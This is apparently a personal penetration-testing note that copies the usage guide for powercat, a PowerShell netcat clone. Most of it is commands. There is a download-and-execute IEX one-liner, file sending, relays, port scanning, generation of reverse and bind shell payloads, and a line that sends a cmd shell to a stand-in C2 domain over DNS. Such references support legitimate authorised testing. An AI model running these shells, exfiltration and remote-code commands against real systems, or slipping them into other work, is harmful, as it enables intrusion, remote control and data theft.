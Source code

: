 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/besimorhino/powercat

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

```powershell
Load The Function From Downloaded .ps1 File:
    . .\powercat.ps1
Load The Function From URL:
    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

### Parameters:

```powershell
-l      Listen for a connection.                             [Switch]
-c      Connect to a listener.                               [String]
-p      The port to connect to, or listen on.                [String]
-e      Execute. (GAPING_SECURITY_HOLE)                      [String]
-ep     Execute Powershell.                                  [Switch]
-r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
-u      Transfer data over UDP.                              [Switch]
-dns    Transfer data over dns (dnscat2).                    [String]
-dnsft  DNS Failure Threshold.                               [int32]
-t      Timeout option. Default: 60                          [int32]
-i      Input: Filepath (string), byte array, or string.     [object]
-o      Console Output Type: "Host", "Bytes", or "String"    [String]
-of     Output File Path.                                    [String]
-d      Disconnect after connecting.                         [Switch]
-rep    Repeater. Restart after disconnecting.               [Switch]
-g      Generate Payload.                                    [Switch]
-ge     Generate Encoded Payload.                            [Switch]
-h      Print the help message.                              [Switch]
```

## Basic Connections

By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.

```powershell
Basic Client:
    powercat -c 10.1.1.1 -p 443
Basic Listener:
    powercat -l -p 8000
Basic Client, Output as Bytes:
    powercat -c 10.1.1.1 -p 443 -o Bytes
```

## File Transfer

powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).

```powershell
Send File:
    powercat -c 10.1.1.1 -p 443 -i C:\inputfile
Recieve File:
    powercat -l -p 8000 -of C:\inputfile
```

## Relays

Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.

```powershell
TCP Listener to TCP Client Relay:
    powercat -l -p 8000 -r tcp:10.1.1.16:443
TCP Listener to UDP Client Relay:
    powercat -l -p 8000 -r udp:10.1.1.16:53
TCP Listener to DNS Client Relay
    powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
TCP Listener to DNS Client Relay using the Windows Default DNS Server
    powercat -l -p 8000 -r dns:::c2.example.com
TCP Client to Client Relay
    powercat -c 10.1.1.1 -p 9000 -r tcp:10.1.1.16:443
TCP Listener to Listener Relay
    powercat -l -p 8000 -r tcp:9000
```

## DNS and UDP

powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns. **Make sure to add "-e open --no-cache" when running the dnscat2 server.**

```powershell
Send Data Over UDP:
    powercat -c 10.1.1.1 -p 8000 -u
    powercat -l -p 8000 -u
Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
    powercat -c 10.1.1.1 -p 53 -dns c2.example.com
Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
    powercat -dns c2.example.com -e cmd
```

## Generate Payloads

Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.

```powershell
Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    powercat -c 10.1.1.15 -p 443 -e cmd -g
Generate a bind tcp encoded command which listens on port 8000:
    powercat -l -p 8000 -e cmd -ge
```

## Misc Usage

powercat can also be used to perform portscans, and start persistent servers.

```powershell
Basic TCP Port Scanner:
    (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
Start A Persistent Server That Serves a File:
    powercat -l -p 443 -i C:\inputfile -rep
```

#shell #reverseshell #filetransfer #relays #portscan #fileserver


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
